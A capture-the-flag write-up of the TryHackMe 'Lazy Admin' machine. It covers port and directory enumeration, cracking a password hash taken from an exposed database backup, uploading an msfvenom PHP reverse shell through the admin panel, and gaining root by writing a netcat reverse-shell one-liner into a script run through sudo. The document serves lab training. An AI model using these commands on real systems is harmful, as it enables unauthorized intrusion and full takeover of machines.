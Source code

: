 # Lazy Admin

## Reconnaissance
Let's start the enumeration with scanning the ports, which we can do with nmap. This can be done with the command nmap -A -T4 <ip>.

![nmap](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/nmap.png)

As we can see there are two ports open, port 22 for ssh and port 80 for http. The SSH version running is OpenSSH 7.2p2 and the server is an Apache server running on ubuntu. For further enumeration we can use ffuf with the command ```ffuf -w /usr/share/wordlists/dirb/big.txt -u "http://<ip>/FUZZ"```.

![fuzzing1](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/fuzzing.png)

```/content``` seems interesting, so let's check it out. Hmm, that did not give us much.

![content](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/content.png)

Let's try fuzzing even deeper, we can do this with the command ```ffuf -w /usr/share/wordlists/dirb/big.txt -u "http://<ip>/content/FUZZ"```

![fuzzing2](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/fuzzing2.png)

```/as``` seems interesting, so lets check it out, oh an admin panel. We could try to brute-force it, but let's continue searching to see if we can find anything else that might be interesting.

<insert image>

We can find an backup of an mysql database at ```<ip>/content/inc/mysql_backup```, lets try downloading it and opening it.

![sql](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/sql.png)

Here we can find both a username and an hashed password, maybe if we can crack the password we can use it to login to the admin panel.

![sql_pass](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/sql_pass.png)

I used ```https://crackstation.net/``` to crack the password.

![pass_cracked](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/pass_cracked.png)

Now we can log in to the admin panel. 

![admin](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/admin_panel.png)

## Getting a shell
Now that we have gotten into the admin panel, it's time to look for a way to get a shell. After looking around on the admin panel for a litte while I found an upload button, lets see if we can upload a reverse shell through the upload form. 

![upload](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/upload.png)

We can create an reverse shell with the command msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php. That worked. Now we can go to ```<ip>/content/attachment/shell.php5``` and run the file while we try to catch the reverse shell. We can catch the reverse shell with metasploit (msfconsole). I used the payload php/meterpreter_reverse_tcp. Set the options LHOST <your ip> and LPORT <choosen port>.

![msf](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/msf.png)

That worked, we now have gotten into the computer.

![user](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/user.png)

## Privilege Escalation
Now that we have gotten into the computer it's time for privilege escalation, so let's do some enumeration. sudo -l shows us that we can use ```/user/bin/perl /home/itguy/backup.pl``` as root.

![priv_esc](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/priv_esc.png)

Let's check out the ```/home/itguy/backup.pl``` file.

![priv_esc2](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/priv_esc2.png)

Ok, now lets check out the ```/etc/copy.sh``` file.

![priv_esc3](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/priv_esc3.png)

It seems like most of the job is done for us. Let's change tha ip to our ip. We can do this with ```echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your_ip> 5554 >/tmp/f" > /etc/copy.sh```

We can now try to catch it with netcat on our computer with ```nc -nvlp 5554``` and then run the file with ```sudo /usr/bin/perl /home/itguy/backup.pl```

![root](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/root.png)

That worked, we have now root access on the machine.
